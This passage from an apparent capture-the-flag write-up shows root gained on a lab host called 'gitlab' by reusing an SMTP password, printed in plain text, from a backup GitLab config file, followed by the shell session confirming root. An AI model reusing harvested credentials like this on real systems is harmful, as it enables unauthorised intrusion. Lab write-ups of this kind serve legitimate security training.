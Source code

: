 # Privileged shell
## Got root@gitlab
Got root@gitlab using `/opt/backup/gitlab.rb:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"` as password
```bash
git@gitlab:/tmp$ su root
su root
Password: wW59U!ZKMbG9+*#h

root@gitlab:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@gitlab:/tmp# whoami
whoami
root
root@gitlab:/tmp#
```
## Got user.txt flag
![[Pasted image 20210412061453.png]]

